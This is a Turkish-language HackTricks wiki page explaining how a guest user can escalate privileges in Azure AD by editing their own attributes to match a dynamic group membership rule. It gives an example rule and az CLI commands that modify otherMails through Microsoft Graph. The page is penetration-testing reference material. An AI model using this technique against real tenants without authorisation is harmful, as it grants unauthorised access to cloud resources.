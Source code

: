 # Az - Dinamik Gruplar Privesc

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter**'da **bizi takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## Temel Bilgiler

**Dinamik gruplar**, belirli bir **kural** setine sahip olan ve bu kurallara uyan tüm **kullanıcılar veya cihazlar** grubuna eklenen gruplardır. Her seferinde bir kullanıcı veya cihazın **özelliği** **değiştiğinde**, dinamik kurallar **yeniden kontrol edilir**. Ve yeni bir **kural** **oluşturulduğunda** tüm cihazlar ve kullanıcılar **kontrol edilir**.

Dinamik gruplara **Azure RBAC rolleri atanabilir**, ancak dinamik gruplara **AzureAD rolleri** eklemek **mümkün değildir**.

Bu özellik, Azure AD premium P1 lisansı gerektirir.

## Privesc

Varsayılan olarak, herhangi bir kullanıcının Azure AD'de misafir davet etmesine izin verildiğini unutmayın, bu nedenle, bir dinamik grup **kuralı**, **özelliklere** dayalı olarak kullanıcılara **izinler** veriyorsa, bu özelliklere sahip bir **misafir** oluşturmak ve **yetkileri artırmak** mümkündür. Ayrıca, bir misafirin kendi profilini yönetmesi ve bu özellikleri değiştirmesi de mümkündür.

Dinamik üyeliğe izin veren grupları alın: **`az ad group list --query "[?contains(groupTypes, 'DynamicMembership')]" --output table`**

### Örnek

* **Kural örneği**: `(user.otherMails -any (_ -contains "security")) -and (user.userType -eq "guest")`
* **Kural açıklaması**: 'security' dizesine sahip bir ikincil e-posta adresine sahip herhangi bir Misafir kullanıcı gruba eklenecektir.

Misafir kullanıcı e-postası için daveti kabul edin ve [https://entra.microsoft.com/#view/Microsoft\_AAD\_IAM/TenantOverview.ReactView](https://entra.microsoft.com/#view/Microsoft_AAD_IAM/TenantOverview.ReactView) adresinde **o kullanıcının** mevcut ayarlarını kontrol edin.\
Ne yazık ki, sayfa özellik değerlerini değiştirmeye izin vermiyor, bu nedenle API'yi kullanmamız gerekiyor:

{% code overflow="wrap" %}
```powershell
# Login with the gust user
az login --allow-no-subscriptions

# Get user object ID
az ad signed-in-user show

# Update otherMails
az rest --method PATCH \
--url "https://graph.microsoft.com/v1.0/users/<user-object-id>" \
--headers 'Content-Type=application/json' \
--body '{"otherMails": ["newemail@example.com", "anotheremail@example.com"]}'

# Verify the update
az rest --method GET \
--url "https://graph.microsoft.com/v1.0/users/<user-object-id>" \
--query "otherMails"
```
{% endcode %}

## Referanslar

* [https://www.mnemonic.io/resources/blog/abusing-dynamic-groups-in-azure-ad-for-privilege-escalation/](https://www.mnemonic.io/resources/blog/abusing-dynamic-groups-in-azure-ad-for-privilege-escalation/)

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
